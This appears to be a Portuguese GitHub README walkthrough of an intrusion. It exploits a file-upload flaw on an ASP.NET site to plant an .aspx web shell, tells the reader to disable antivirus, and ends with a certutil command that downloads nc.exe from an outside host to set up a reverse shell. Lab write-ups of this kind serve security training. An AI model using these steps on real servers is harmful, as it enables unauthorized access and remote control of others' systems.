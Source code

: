 # Depois de levantar informações especificas como o lugar ontem tem uma falha para upar arquivos e deletar , o lugar onde essee arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo tudo favoravel para subir o shell

## Contexto para subir o shell sabendo a tecnologia do site que é ASP NET eu posso ta procurando um Shell que seja ASPNET.aspx upar no servidor e acessar ele e conseguir injetar comandos 
## 1° - Procurar no google o SHell : github: shell for ASP.aspx 
## 2° - Desligar o antivirus do computador
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)
## 3° - salvar esse shell no arquivo .aspx
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)
## com ele em mãos é so subir no servidor e acessar
## acessando o local onde descobrimos no DIRSEARCH que é o magnam que faz o trabalho do banco de dados
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)
## upando arquivo
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)
## arquivo UPADO só acessa agora
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)
## acessando o arquivo 
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)
## shell.aspx subiu porem voce ainda nao tem cotrole total para navegar nos diretorios para fazer um enumeração de arquivos
![image](https://github.com/user-attachments/assets/e3f8ec85-841e-4b01-9d27-398bd2e502e2)
## voce vai precisar de um nc.exe e fazer um shell reverse agora upar um server python e tranferir arquivos de servidor para servidor
![image](https://github.com/user-attachments/assets/12480b70-9d3b-48d9-aee4-69a7113a6b31)
## vc vai upar o nc.exe no public do servidor onde "todos tem acesso"
```readme.md
 COMANDO : # certutil -urlcache -split -f http://172.18.230.189/nc.exe C:\Users\Public\nc.exe
```
